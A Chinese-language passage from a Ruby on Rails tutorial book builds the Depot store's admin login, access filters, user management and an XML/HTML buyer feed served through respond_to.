首先，我们创建一个新的 `User` 对象。如果参数数组中存在表单数据，它将用于初始化对象。如果没有数据存在，将创建一个空的用户对象。

如果传入的请求是GET，我们已经完成了操作。它直接到达末尾并渲染与 `add_user` 关联的模板（我们尚未编写）。

如果请求是POST，我们正在查看用户提交的内容，因此我们尝试保存数据。如果成功，我们将创建一个新的用户对象并重新显示表单（在flash中显示一条友好的消息）。这允许管理员继续输入更多用户。如果保存失败，我们也会到达操作的末尾。这次，我们在 `@user` 对象中既有（错误的）数据，也有验证失败的原因（在对象的 `errors` 结构中）。这意味着用户将有机会纠正错误。

这段代码中flash的处理有一个有趣的变化。我们想要使用正常的flash机制来显示“用户已添加”消息。然而，我们也不希望flash消息在当前请求之后仍然存在。为了解决这个问题，我们使用了一个变体 `flash.now`，它只在当前请求期间将消息放入flash中。

要让此操作发挥作用，我们需要为其创建一个视图。这是 `app/views/login` 中的模板 `add_user.rhtml`。请注意，`form_for` 方法不需要参数，因为它默认将表单提交回渲染模板的操作和控制器。视图列表在下一页。

```html
Download depot_p/app/views/login/add_user.rhtml

<div class="depot-form">
  <%= error_messages_for 'user' %>
  <fieldset>
    <legend>Enter User Details</legend>
    <% form_for :user do |form| %>
      <p>
        <label for="user_name">Name:</label>
        <%= form.text_field :name, :size => 40 %>
      </p>
      <p>
        <label for="user_password">Password:</label>
        <%= form.password_field :password, :size => 40 %>
      </p>
      <p>
        <label for="user_password_confirmation">Confirm:</label>
        <%= form.password_field :password_confirmation, :size => 40 %>
      </p>
      <%= submit_tag "Add User", :class => "submit" %>
    <% end %>
  </fieldset>
</div>
```

就是这样：我们现在可以将用户添加到数据库中。让我们试一试。导航到 `http://localhost:3000/login/add_user`，您应该会看到这个令人惊叹的页面设计示例。

点击“Add User”后，页面将重新显示，并带有愉快的flash通知。如果我们查看数据库，您会看到我们已经存储了用户详情。（当然，您行中的值会有所不同，因为盐值实际上是随机的。）

```sql
mysql> select * from users;
+----+-------+---------------------+------------------+
| id | name  | hashed_password     | salt             |
+----+-------+---------------------+------------------+
|  1 | dave  | 2890ed2e4facd4...56e54606751ff | 32920.319242... |
+----+-------+---------------------+------------------+
```

### 11.2 迭代F2：登录

为我们的商店管理员添加登录支持意味着什么？

- 我们需要提供一个表单，允许他们输入用户名和密码。
- 一旦他们登录，我们需要以某种方式在会话的其余时间（或直到他们注销）记录这一事实。
- 我们需要限制对应用程序管理部分的访问，只允许已登录的人管理商店。

我们将在登录控制器中需要一个 `login` 操作，并且需要在会话中记录一些信息，表明管理员已登录。让我们使用键 `:user_id` 存储其User对象的id。登录代码如下所示。

```ruby
def login
  session[:user_id] = nil
  if request.post?
    user = User.authenticate(params[:name], params[:password])
    if user
      session[:user_id] = user.id
      redirect_to(:action => "index")
    else
      flash[:notice] = "Invalid user/password combination"
    end
  end
end
```

这使用了与 `add_user` 方法相同的技巧，在同一个方法中处理初始请求和响应。但它也做了一些新的事情：它使用了一个不直接与模型对象关联的表单。为了了解这是如何工作的，让我们看看 `login` 操作的模板。

```html
<div class="depot-form">
  <fieldset>
    <legend>Please Log In</legend>
```


这个表单与我们之前见过的不同。它没有使用 *form_for*，而是使用了 *form_tag*，后者只是构建一个常规的 HTML `<form>`。在这个表单内部，它使用了 *text_field_tag* 和 *password_field_tag*，这两个辅助方法会创建 HTML `<input>` 标签。每个辅助方法都接受两个参数。第一个是字段的名称，第二个是填充字段的值。这种表单样式允许我们直接将 *params* 结构中的值与表单字段关联起来——无需模型对象。在我们的例子中，我们选择在表单中直接使用 *params* 对象。另一种方法是在控制器中设置实例变量。

这种表单样式的流程如图 11.1（下一页）所示。请注意表单字段的值是如何使用 *params* 哈希在控制器和视图之间传递的：视图从 `params[:name]` 获取要在字段中显示的值，当用户提交表单时，新的字段值也通过相同的方式提供给控制器。

如果用户成功登录，我们将用户记录的 id 存储在会话数据中。我们会将会话中是否存在该值用作标志，表明管理员用户已登录。

最后，是时候添加索引页面了，这是管理员登录后看到的第一个界面。让我们让它变得有用——我们将让它显示我们商店中的订单总数。在目录 `app/views/login` 中的文件 *index.rhtml* 里创建模板。（此模板使用了 *pluralize* 辅助方法，在本例中它会根据其第一个参数的基数生成字符串 *order* 或 *orders*。）

```
Download depot_p/app/views/login/index.rhtml

<h1>Welcome</h1>
It's <%= Time.now %>.
We have <%= pluralize(@total_orders, "order") %>.
```

##### 图 11.1：控制器、模板和浏览器之间的参数流

索引操作设置了计数。

```
Download depot_p/app/controllers/login_controller.rb

def index
  @total_orders = Order.count
end
```

现在我们可以体验作为管理员登录的喜悦了。

我们向客户展示了我们的进展，但她指出我们仍然没有控制对管理页面的访问（毕竟，这是本次练习的重点）。

### 11.3 迭代 F3：限制访问

我们想阻止没有管理员登录的人访问我们网站的管理页面。事实证明，使用 Rails 的 *filter* 功能很容易实现。

Rails 过滤器允许你拦截对操作方法的调用，在它们被调用之前、返回之后，或两者兼有地添加你自己的处理。在我们的例子中，我们将使用一个 *before filter* 来拦截对管理控制器中所有操作的调用。拦截器可以检查 `session[:user_id]`。如果设置了该值并且它对应于数据库中的用户，应用程序就知道管理员已登录，调用可以继续。如果没有设置，拦截器可以发出重定向，在本例中是重定向到我们的登录页面。

我们应该把这个方法放在哪里？它可以直接放在管理控制器中，但，出于即将显而易见的原因，让我们把它放在 `ApplicationController` 中，这是所有控制器的父类。这个类位于目录 `app/controllers` 中的文件 `application.rb`。还要注意，我们需要限制对此方法的访问，因为 `application.rb` 中的方法会作为实例方法出现在我们所有的控制器中。这里的任何公共方法都会作为操作暴露给终端用户。

```
class ApplicationController < ActionController::Base

  private

  def authorize
    unless User.find_by_id(session[:user_id])
      flash[:notice] = "Please log in"
      redirect_to(:controller => "login", :action => "login")
    end
  end

end
```

通过添加一行代码，这个授权方法就可以在管理控制器中的任何操作之前被调用。

```
class AdminController < ApplicationController

  before_filter :authorize

  # ....
```

##### 一个更友好的登录系统

就目前的代码而言，如果管理员在登录之前尝试访问受限页面，他们会被带到登录页面。当他们随后登录时，会显示标准状态页面——他们最初的请求被忘记了。如果你愿意，你可以更改应用程序，以便在他们登录后将其转发到最初请求的页面。

首先，在 authorize 方法中，如果需要让用户登录，就在会话中记住传入请求的 URI。

```
def authorize
  unless User.find_by_id(session[:user_id])
    session[:original_uri] = request.request_uri
    flash[:notice] = "Please log in"
    redirect_to(:controller => "login", :action => "login")
  end
end
```

一旦我们让某人登录，我们就可以检查会话中是否有存储的 URI，如果有就重定向到它。我们还需要在使用后清除该存储的 URI。

```
def login
  session[:user_id] = nil
  if request.post?
    user = User.authenticate(params[:name], params[:password])
    if user
      session[:user_id] = user.id
      uri = session[:original_uri]
      session[:original_uri] = nil
      redirect_to(uri || { :action => "index" })
    else
      flash[:notice] = "Invalid user/password combination"
    end
  end
end
```

我们需要对登录控制器进行类似的更改。不过，在这里，我们希望即使用户未登录也能调用登录操作，因此我们将其从检查中豁免。

```
class LoginController < ApplicationController

before_filter :authorize, :except => :login
# ..
```

如果你在跟着做，请删除你的会话信息（因为其中我们已经登录了）。

```
depot> rake db:sessions:clear
```

导航到 http://localhost:3000/admin/list。过滤器方法在我们前往产品列表的途中拦截了我们，并向我们展示了登录屏幕。

我们向客户展示了，并得到了一个灿烂的笑容和一个请求：我们能否添加一个侧边栏，并在其中放置指向用户和产品管理的链接？而且，在那里，我们能否添加列出和删除管理员用户的功能？当然可以！

### 11.4 迭代 F4：一个侧边栏，更多管理功能

让我们从侧边栏开始。根据我们使用订单控制器的经验，我们知道需要创建一个布局。管理控制器的布局将位于 `app/views/layouts` 目录中的文件 `admin.rhtml` 中。

```
Download depot_q/app/views/layouts/admin.rhtml
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
       "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html>
<head>
  <title>Administer the Bookstore</title>
  <%= stylesheet_link_tag "scaffold", "depot", :media => "all" %>
</head>
<body id="admin">
  <div id="banner">
    
    <%= @page_title || "Pragmatic Bookshelf" %>
  </div>
  <div id="columns">
    <div id="side">
      <p>
        <%= link_to "Products",    :controller => 'admin', :action => 'list' %>
      </p>
      <p>
        <%= link_to "List users", :controller => 'login', :action => 'list_users' %>
        <br/>
        <%= link_to "Add user",   :controller => 'login', :action => 'add_user' %>
      </p>
      <p>
        <%= link_to "Logout",      :controller => 'login', :action => 'logout' %>
      </p>
    </div>
    <div id="main">
      <% if flash[:notice] -%>
        <div id="notice"><%= flash[:notice] %></div>
      <% end -%>
        <%= yield :layout %>
    </div>
  </div>
</body>
</html>
```

我们在布局的侧边栏中添加了指向各种管理功能的链接。现在让我们来实现它们。

#### 列出用户

向登录控制器添加用户列表很容易。控制器操作在实例变量中设置列表。

```
Download depot_q/app/controllers/login_controller.rb

def list_users
  @all_users = User.find(:all)
end
```

我们在 `list_users.rhtml` 模板中显示列表。我们在每一行添加一个指向 `delete_user` 操作的链接——而不是有一个删除屏幕要求输入用户名然后删除该用户，我们只是简单地在用户列表中每个名字旁边添加一个删除链接。

```
Download depot_q/app/views/login/list_users.rhtml

<h1>Administrators</h1>
<ul>
  <% for user in @all_users %>
    <li><%= link_to "[X]", { # link to options
            :controller => 'login',
            :action => 'delete_user',
            :id => user},
            { # html options
            :method  => :post,
            :confirm => "Really delete #{user.name}?"
            } %>
        <%= h(user.name) %>
    </li>
  <% end %>
</ul>
```

##### 最后的管理员离开时...

删除用户的代码很简单。登录控制器的 `delete_user` 操作通过 id 参数接收要删除的用户。它只需做类似这样的事情：

```
def delete_user
  if request.post?
    user = User.find(params[:id])
    user.destroy
  end
  redirect_to(:action => :list_users)
end
```

（我们为什么检查 HTTP POST 请求？这是一个值得养成的好习惯。改变服务器状态的请求应该使用 POST 发送，而不是 GET 请求。这就是为什么我们在表单中覆盖了 `link_to` 的默认设置并使


##### 图 11.2：列出我们的用户

这会生成一个 POST 请求。但这仅在用户启用了 JavaScript 时才有效。在控制器中添加测试可以发现这种情况并忽略该请求。

让我们来试试这个。我们打开看起来像图 11.2 的列表屏幕，并点击 *dave* 旁边的 X 来删除该用户。果然，我们的用户被移除了。但令我们惊讶的是，我们随后被呈现的是登录屏幕。我们刚刚从系统中删除了唯一的管理员用户。当下一个请求进来时，认证失败，因此应用程序拒绝让我们进入。我们必须在使用任何管理功能之前再次登录。但现在我们面临一个尴尬的问题：数据库中没有管理员用户，所以我们无法登录。

幸运的是，我们可以从命令行快速向数据库添加一个用户。如果你调用命令 `script/console`，Rails 会调用 Ruby 的 irb 工具，但它是以你的 Rails 应用程序上下文调用的。这意味着你可以通过输入 Ruby 语句并查看它们返回的值来与应用程序的代码交互。我们可以用这个来直接调用我们的用户模型，让它为我们向数据库中添加一个用户。

```
depot> ruby script/console
Loading development environment.
>> User.create(:name => 'dave', :password => 'secret',
               :password_confirmation => 'secret')
=> #<User:0x2933060 @attributes={...} ...>
>> User.count
=> 1
```

`>>` 序列是提示符：在第一个之后，我们调用 `User` 类来创建一个新用户，在第二个之后，我们再次调用它来显示我们的数据库中确实有一个用户。在我们输入的每个命令之后，script/console 显示代码返回的值（在第一种情况下是模型对象，在第二种情况下是计数）。

恐慌结束了——我们现在可以重新登录应用程序了。但我们如何阻止这种情况再次发生呢？有几种方法。例如，我们可以编写代码来防止你删除自己的用户。这并不完全有效——理论上，A 可能在 B 删除 A 的同时删除 B。相反，让我们尝试一种不同的方法。我们将在数据库事务中删除用户。如果在我们删除用户之后数据库中没有剩余用户，我们将回滚事务，恢复我们刚刚删除的用户。

为此，我们将使用一个 Active Record 钩子方法。我们已经见过一个了：`validate` 钩子由 Active Record 调用来验证对象的状态。事实证明，Active Record 定义了大约 20 个钩子方法，每个都在对象生命周期的特定点被调用。我们将使用 `after_destroy` 钩子，它在 SQL `delete` 执行后被调用。它很方便地在与 `delete` 相同的事务中被调用，因此如果它引发异常，事务将被回滚。钩子方法如下所示。

```
# Download depot_q/app/models/user.rb

def after_destroy
  if User.count.zero?
    raise "Can't delete last user"
  end
end
```

这里的关键概念是使用异常来指示删除用户时的错误。这个异常有两个目的。首先，因为它在事务内部引发，异常会导致自动回滚。通过在删除后 users 表为空时引发异常，我们撤销删除并恢复最后一个用户。

其次，异常将错误信号传回控制器，我们在那里使用 begin/end 块来处理它，并通过 flash 向用户报告错误。

```
# Download depot_q/app/controllers/login_controller.rb

def delete_user
  if request.post?
    user = User.find(params[:id])
    begin
      user.destroy
      flash[:notice] = "User #{user.name} deleted"
    rescue Exception => e
      flash[:notice] = e.message
    end
  end
  redirect_to(:action => :list_users)
end
```

（实际上，这段代码仍然有一个潜在的时序问题——如果时序合适，两个管理员仍然可能分别删除最后两个用户。修复这个问题需要比我们这里所能提供的更多的数据库技巧。）

##### 注销

我们的管理布局在侧边栏菜单中有一个注销选项。它在登录控制器中的实现是微不足道的。

```
# Download depot_q/app/controllers/login_controller.rb

def logout
  session[:user_id] = nil
  flash[:notice] = "Logged out"
  redirect_to(:action => "login")
end
```

我们最后一次把客户请过来，她试用商店应用程序。她尝试我们的新管理功能，并查看买家体验。她尝试输入错误的数据。应用程序处理得很出色。她笑了，我们几乎完成了。

我们已经完成了功能的添加，但在我们离开之前，我们最后再看一遍代码。我们注意到商店控制器中有一处略显丑陋的重复。除了 `empty_cart` 之外的每个操作都必须在会话数据中找到用户的购物车。这行代码

`@cart = find_cart`

出现在整个控制器中。现在我们知道过滤器了，我们可以修复这个问题。我们将修改 `find_cart` 方法，将其结果直接存储到 `@cart` 实例变量中。

```
# Download depot_q/app/controllers/store_controller.rb

def find_cart
  @cart = (session[:cart] ||= Cart.new)
end
```

然后我们将使用一个 before 过滤器在除 `empty_cart` 之外的每个操作上调用此方法。

```
# Download depot_q/app/controllers/store_controller.rb

before_filter :find_cart, :except => :empty_cart
```

这让我们可以移除操作方法中对 `@cart` 的其他赋值。最终的清单从第 659 页开始显示。

#### 我们刚刚做了什么

在这个迭代结束时，我们完成了以下内容。

-   创建了一个用户模型和数据库表，并验证了属性。它使用加盐哈希在数据库中存储密码。我们创建了一个代表明文密码的虚拟属性，并编写代码以便在明文版本更新时创建哈希版本。

-   手动创建了一个用于管理用户的控制器，并研究了单操作更新方法（该方法根据是通过 HTTP GET 还是 POST 调用而采用不同的路径）。我们使用 `form_for` 辅助方法来渲染表单。

-   我们创建了一个登录操作。这使用了另一种风格的表单——没有相应模型的表单。我们看到了参数如何在视图和控制器之间传递。

-   我们在 `app/controllers` 目录下的 `application.rb` 文件中的 `ApplicationController` 类中创建了一个应用程序范围的控制器辅助方法。

-   我们使用 *before 过滤器* 调用 `authorize` 方法来控制对管理功能的访问。

-   我们看到了如何使用 `script/console` 直接与模型交互（并在我们删除最后一个用户后把我们从困境中解救出来）。

-   我们看到了事务如何帮助防止删除最后一个用户。

-   我们使用另一个过滤器为控制器操作设置公共环境。

#### 试玩时间

这里有一些可以自己尝试的东西。

-   从上一章调整结账代码，使其使用单个操作，而不是两个。

-   当系统在新机器上全新安装时，数据库中没有定义管理员，因此没有管理员可以登录。但是，如果没有管理员可以登录，那么就没有人可以创建管理员用户。修改代码，使得如果数据库中没有定义管理员，任何用户名都可以用于登录（允许你快速创建一个真正的管理员）。²

-   用 `script/console` 做实验。尝试创建产品、订单和订单项。注意保存模型对象时的返回值——当验证失败时，你会看到返回 `false`。通过检查错误来找出原因：

```
>> prd = Product.new
=> #<Product:0x271c25c @new_record=true, @attributes={"image_url"=>nil, "price"=>#<BigDecimal:2719a48,'0.0',4(8)>,'title'=>nil,"description"=>nil}>
>> prd.save
=> false
>> prd.errors.full_messages
=> ["Image url must be a URL for a GIF, JPG, or PNG image", "Image url can't be blank", "Price should be at least 0.01", "Title can't be blank", "Description can't be blank"]
```

（你可以在 [http://wiki.pragprog.com/cgi-bin/wiki.cgi/RailsPlayTime](http://wiki.pragprog.com/cgi-bin/wiki.cgi/RailsPlayTime) 找到提示）

² 后来，在第 275 页的第 16.4 节 *数据迁移* 中，我们将看到如何在迁移过程中填充数据库表。


# 第12章

### 任务G：最后一个小变动

在我们最初几次迭代之后的日子里，我们为购物系统添加了履约功能并将其推出。它取得了巨大成功，随后的几个月里，Depot应用成为了业务的核心部分。事实上，它变得如此重要，以至于市场营销部门也对此产生了兴趣。他们想向购买过特定书籍的人发送群发邮件，告知他们有新书上市。他们已经有了垃圾邮件系统，只是需要一个包含客户姓名和电子邮件地址的XML数据源。

### 12.1 生成XML数据源

让我们为我们的应用程序设置一个REST风格的接口。REST代表“代表性状态传输”，这基本上没什么意义。它真正的含义是使用HTTP动词（GET、POST、DELETE等）在应用程序之间发送请求和响应。在我们的场景中，我们将允许营销系统向我们发送HTTP GET请求，询问购买了特定产品的客户详情。我们的应用程序将用一个XML文档来响应。[^1] 我们与市场部的IT人员进行了沟通，他们同意采用一个简单的请求URL格式。

```
http://my.store.com/info/who_bought/<product id>
```

因此，我们需要解决两个问题：我们需要能够找到购买了特定产品的客户，以及需要从该列表生成一个XML数据源。让我们从生成列表开始。

**在表中导航**

图12.1展示了我们数据库中订单部分的当前结构。每个订单有多个订单项，每个订单项与一个产品相关联。我们的市场人员希望以相反的方向导航这些关联：从特定产品出发，找到所有引用该产品的订单项，然后从这些订单项找到对应的订单。



从Rails 1.1开始，我们可以使用`:through`关系来做到这一点。我们可以在产品模型中添加以下声明。

```ruby
# depot_q/app/models/product.rb
class Product < ActiveRecord::Base
  has_many :orders, :through => :line_items
  # . . .
end
```

之前我们使用`has_many`在产品和订单项之间建立了父/子关系：我们说过一个产品拥有多个订单项。现在，我们说的是一个产品也与多个订单相关联，但这两个表之间没有直接关系。相反，Rails知道要获取一个产品的订单，它必须首先找到该产品的订单项，然后找到与每个订单项关联的订单。

这听起来可能效率相当低下。如果Rails首先获取订单项，然后循环加载每个订单，情况确实如此。幸运的是，它比那更聪明。如果你在我们即将编写的代码运行时查看日志文件，你会发现Rails在表之间生成了高效的SQL连接，允许数据库引擎优化查询。

有了`:through`声明，我们可以通过引用该产品的`orders`属性来找到特定产品的订单。

```ruby
product = Product.find(some_id)
orders = product.orders
logger.info("Product #{some_id} has #{orders.count} orders")
```

#### 创建REST接口

考虑到这不会是市场人员提出的最后一个请求，我们创建一个新的控制器来处理信息类请求。

```
depot> ruby script/generate controller info
exists  app/controllers/
exists  app/helpers/
create  app/views/info
exists  test/functional/
create  app/controllers/info_controller.rb
create  test/functional/info_controller_test.rb
create  app/helpers/info_helper.rb
```

我们将向`info`控制器添加`who_bought`动作。它简单地根据给定的产品ID加载订单列表。

```ruby
def who_bought
  @product = Product.find(params[:id])
  @orders = @product.orders
end
```

现在我们需要实现向调用者返回XML的模板。我们可以使用与渲染网页相同的rhtml模板，但有更好的方法。第一种方法使用rxml模板，专为轻松创建XML文档而设计。让我们看看模板`who_bought.rxml`，我们在`app/views/info`目录中创建它。

```xml
xml.order_list(:for_product => @product.title) do
  for o in @orders
    xml.order do
      xml.name(o.name)
      xml.email(o.email)
    end
  end
end
```

信不信由你，这只是Ruby代码。它使用了Jim Weirich的Builder库，该库在执行程序时会生成一个格式良好的XML文档作为副产品。

在rxml模板中，变量`xml`代表正在构建的XML对象。当您调用此对象上的方法时（例如在模板第一行调用`order_list`），构建器会发出相应的XML标签。如果传递一个哈希给这些方法中的一个，它将用于构造XML标签的属性。如果传递一个字符串，它将用作标签的值。

如果要嵌套标签，请向外部构建器方法调用传递一个代码块。在代码块内创建的XML元素将嵌套在外部元素内部。我们在示例中使用了这一点，将`<order>`标签列表嵌入`<order_list>`中，然后在每个`<order>`中嵌入`<name>`和`<email>`标签。



我们可以使用浏览器或命令行来测试此方法。如果您在浏览器中输入URL，将返回XML。它的显示方式取决于浏览器：在我的Mac上，Safari渲染文本并忽略标签，而Firefox显示格式良好的XML表示（如图12.2所示）。在所有浏览器中，查看源文件选项应显示从应用程序发送的内容。

您也可以使用`curl`或`wget`等工具从命令行查询应用程序。

```
depot> curl http://localhost:3000/info/who_bought/1
<order_list for_product="Pragmatic Project Automation">
  <order>
    <name>Dave Thomas</name>
    <email>customer@pragprog.com</email>
  </order>
  <order>
    <name>F &amp; W Flintstone</name>
    <email>rock_crusher@bedrock.com</email>
  </order>
</order_list>
```

事实上，这引出了一个有趣的问题：我们能否安排我们的动作，使得从浏览器访问的用户看到格式良好的列表，而发出REST请求的人得到XML返回？

#### 适当响应

请求通过HTTP进入Rails应用程序。HTTP消息由一些头部信息和（可选的）一些数据（如来自表单的POST数据）组成。其中一个头部是`Accept:`，客户端使用它来告诉服务器可以返回的内容类型。例如，浏览器可能发送一个包含以下头部的HTTP请求

```
Accept: text/html, text/plain, application/xml
```

理论上，服务器应该只返回匹配这三种类型之一的内容。

我们可以利用这一点来编写根据Accept头部返回适当内容的动作。例如，我们可以编写一个使用Accept头部的`who_bought`动作。如果客户端只接受XML，那么我们可以返回XML格式的REST响应。如果客户端接受HTML，那么我们可以渲染一个HTML页面。

在Rails中，我们使用`respond_to`方法根据Accepts头部进行条件处理。首先，让我们编写一个用于HTML视图的简单模板。

```erb
<!-- depot_r/app/views/info/who_bought.rhtml -->
<h3>购买了 <%= @product.title %> 的人</h3>

<ul>
  <% for order in @orders -%>
    <li>
      <%= mail_to order.email, order.name %>
    </li>
  <% end -%>
</ul>
```

现在我们将使用`respond_to`根据传入的请求Accept头部选择正确的模板。

```ruby
# depot_r/app/controllers/info_controller.rb
def who_bought
  @product = Product.find(params[:id])
  @orders  = @product.orders
  respond_to do |format|
    format.html
    format.xml
  end
end
```

在`respond_to`块内，我们列出了我们接受的内容类型。你可以认为它有点像一个`case`语句，但它有一个很大的区别：它忽略你列出选项的顺序，而是使用传入请求的顺序（因为客户端有权指定它更喜欢哪种格式）。

在这里，我们对每种内容类型使用默认动作。对于`html`，该动作是调用`render`。对于`xml`，该动作是渲染`.xml`模板。最终效果是客户端可以从同一个动作选择接收HTML或XML。

[^1]: 我们*本可以*使用Web服务来实现此传输——Rails支持作为SOAP和XML-RPC客户端与服务器。然而，在这种情况下这似乎有点大材小用。


不幸的是，这很难用浏览器来尝试。相反，让我们使用命令行客户端。这里我们使用 `curl`（但像 `wget` 这样的工具同样适用）。`curl` 的 `-H` 选项允许我们指定请求头。让我们先请求 XML 格式的数据。

```
depot> curl -H "Accept: application/xml" \
              http://localhost:3000/info/who_bought/1
<order_list for_product="Pragmatic Project Automation">
  <order>
    <name>Dave Thomas</name>
    <email>customer@pragprog.com</email>
  </order>
  <order>
    <name>F &amp; W Flintstone</name>
    <email>crusher@bedrock.com</email>
  </order>
</order_list>
```

然后是 HTML 格式。

```
depot> curl -H "Accept: text/html" \
          http://localhost:3000/info/who_bought/1
<h3>People Who Bought Pragmatic Project Automation</h3>
<ul>
  <li>
    <a href="mailto:customer@pragprog.com">Dave Thomas</a>
  </li>
  <li>
    <a href="mailto:crusher@bedrock.com">F & W Flintstone</a>
  </li>
</ul>
```

##### 另一种请求 XML 的方式

虽然使用 `Accept` 头是“官方”的 HTTP 指定内容类型的方式，但从客户端设置这个头并不总是可行的。Rails 提供了一种替代方案：我们可以将首选格式作为 URL 的一部分来设置。如果我们希望对 `who_bought` 请求的响应以 HTML 形式返回，可以请求 `/info/who_bought/1.html`。如果我们想要 XML，则可以使用 `/info/who_bought/1.xml`。并且这种方式可以扩展到任何内容类型（只要我们在 `respond_to` 代码块中编写了相应的处理器）。

要启用这种行为，我们需要对路由配置做一个简单的修改。我们将在第 422 页解释其工作原理——现在，只需相信它有效即可。打开 `config` 目录下的 `routes.rb` 文件，并添加高亮显示的这一行。

```
下载 depot_r/config/routes.rb

ActionController::Routing::Routes.draw do |map|
  map.connect ':controller/service.wsdl', :action => 'wsdl'
  map.connect ':controller/:action/:id'
  map.connect ':controller/:action/:id.:format'
end
```

这条额外的路由表明 URL 可以以文件扩展名（`.html`、`.xml` 等）结尾。如果是这样，该扩展名将被存储在变量 `format` 中。Rails 使用该变量来模拟请求的内容类型。

做出这个修改后，重启你的应用程序，然后尝试请求像 `http://localhost:3000/info/who_bought/1.xml` 这样的 URL。根据你的浏览器不同，你可能会看到格式良好的 XML 显示，或者可能会看到一个空白页。如果你看到后者，请使用浏览器的“查看 → 源文件”功能来查看响应内容。

##### 自动生成 XML

在前面的例子中，我们使用 `rxml` 模板手动生成了 XML 响应。这让我们可以控制返回元素的顺序。但如果顺序不重要，我们可以通过调用模型的 `to_xml` 方法，让 Rails 为我们自动生成模型对象的 XML。在下面的代码中，我们覆盖了 XML 请求的默认行为，使用了此方法。

```
def who_bought
  @product = Product.find(params[:id])
  @orders = @product.orders
  respond_to do |accepts|
    accepts.html
    accepts.xml { render :xml => @product.to_xml(:include => :orders) }
  end
end
```

`render` 的 `:xml` 选项告诉它将响应内容类型设置为 `application/xml`。然后 `to_xml` 调用的结果被发送回客户端。在这种情况下，我们输出 `@product` 变量以及所有引用该产品的订单。

```
depot> curl http://localhost:3000/info/who_bought/1.xml
<?xml version="1.0" encoding="UTF-8"?>
<product>
  <image-url>/images/auto.jpg</image-url>
  <title>Pragmatic Project Automation</title>
  <price type="integer">2995</price>
  <orders>
    <order>
      <name>Dave Thomas</name>
      <id type="integer">1</id>
      <pay-type>check</pay-type>
      <address>123 The Street</address>
      <email>customer@pragprog.com</email>
    </order>
    <order>
      <name>F &amp; W Flintstone</name>
      <id type="integer">2</id>
      <pay-type>check</pay-type>
      <address>123 Bedrock</address>
      <email>crusher@bedrock.com</email>
    </order>
  </orders>
</product>
```

```
</product>
```

请注意，`to_xml` 默认会输出所有内容。你可以让它排除某些属性，但这很快会变得混乱。如果你需要生成符合特定模式或 DTD 的 XML，最好坚持使用 rxml 模板。

### 12.2 收尾工作

编码已经结束，但在将应用程序部署到生产环境之前，我们还可以做一些清理工作。

我们可能想查看一下应用程序的文档。在编码过程中，我们为所有的类和方法都编写了简洁而优雅的注释。（因为想节省篇幅，我们在本书的代码摘录中没有展示它们。）Rails 可以轻松地对应用程序中的所有源文件运行 Ruby 的 RDoc 工具，以生成美观的程序员文档。但在生成该文档之前，我们可能应该创建一个不错的介绍页面，这样未来的开发人员就能知道我们的应用程序是做什么的。为此，编辑 `doc/README_FOR_APP` 文件，并输入任何你认为可能有用的内容。该文件将使用 RDoc 进行处理，因此你有很大的格式灵活性。

你可以使用 `rake` 命令生成 HTML 格式的文档。

`depot> rake doc:app`

这会在 `doc/app` 目录中生成文档。下一页的图 **12.3** 显示了生成的初始页面。

最后，我们可能有兴趣看看我们写了多少代码。也有一个 Rake 任务可以完成这个。（你的数字会与此不同，即使没有其他原因，也可能是因为你还没有编写测试。那是下一章的主题。）





图 12.3：我们应用程序的内部文档

```
depot> rake stats
(in /Users/dave/Work/depot)
+--------------------+-------+------+---------+---------+-----+-------+
| Name               | Lines |  LOC | Classes | Methods | M/C | LOC/M |
+--------------------+-------+------+---------+---------+-----+-------+
| Helpers            |    17 |   15 |       0 |       1 |   0 |    13 |
| Controllers        |   229 |  154 |       5 |      23 |   4 |     4 |
| Components         |     0 |    0 |       0 |       0 |   0 |     0 |
|   Functional tests |   206 |  141 |       8 |      25 |   3 |     3 |
| Models             |   261 |  130 |       6 |      18 |   3 |     5 |
|   Unit tests       |   178 |  120 |       5 |      13 |   2 |     7 |
| Libraries          |     0 |    0 |       0 |       0 |   0 |     0 |
|   Integration tests|   192 |  130 |       2 |      10 |   5 |    11 |
+--------------------+-------+------+---------+---------+-----+-------+
| Total              |  1083 |  690 |      26 |      90 |   3 |     5 |
+--------------------+-------+------+---------+---------+-----+-------+
   代码行: 299        测试行: 391        代码与测试比例: 1:1.3
```

#### 动手试试

这里有一些东西可以让你自己尝试。

